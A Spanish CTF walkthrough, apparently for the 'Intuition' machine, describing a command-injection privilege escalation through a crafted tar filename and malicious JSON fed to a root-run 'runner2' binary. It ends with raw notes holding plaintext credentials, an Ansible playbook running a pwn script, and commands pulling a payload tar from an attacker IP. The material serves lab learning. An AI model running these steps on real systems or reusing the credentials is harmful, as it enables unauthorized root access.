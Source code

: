- Después de que revisamos la función `isTarArchive`, lo que hace básicamente es comprobar que el `tar file` esté correctamente formado para poder leer los  `headers`, razón por la cual basta con crear un archivo y luego crear un  `tarball` que lo contenga.

![[Pasted image 20240505154954.png]]

- Finalmente para explotar el `Command Injection`, crearemos una carpeta `pwn` la cual contendrá un archivo(`pwned.txt`).
![[Pasted image 20240504130514.png]]

- Luego procederemos a crear el archivo `tar` y a renombrarlo para poder explotar el `Command Injection` vulnerability.
![[Pasted image 20240504131156.png]]

- Para después crear el JSON file (`malicious.json`) con el siguiente contenido.
![[Pasted image 20240504130758.png]]

- Luego ejecutaremos el `runner2` binary como `root` y obtendremos una instancia de la shell Bash con los privilegios de `root`.

![[Pasted image 20240504131945.png]]


- Flags en funcion `json_loadf`.[Source](https://jansson.readthedocs.io/en/2.3/apiref.html#encoding)
- Pointers en C. [Source](https://www.javatpoint.com/c-dereference-pointer#:~:text=The%20dereference%20operator%20is%20also,known%20as%20dereferencing%20a%20pointer.)








```
adam gray
UHI75GHINKOP
```

- Host disponibles
```bash
172.21.0.4
10.10.10.2
172.21.0.2




Credentials : lopez : Lopezz1992%123
cp *gz /dev/shm


./runner1 run 1 -a UHI75GHINKOP

lopez@intuition:~$ cat pwned.yml
---
- name: test play
  hosts: localhost

  tasks:
    - name: first task
      command: /home/lopez/pwn.sh

./runner1 install http://10.10.14.45/  -a UHI75GHINKOP

./runner1 install http://0.10.14.45/pwnpwn.tar -a UHI75GHINKOP

{ 
```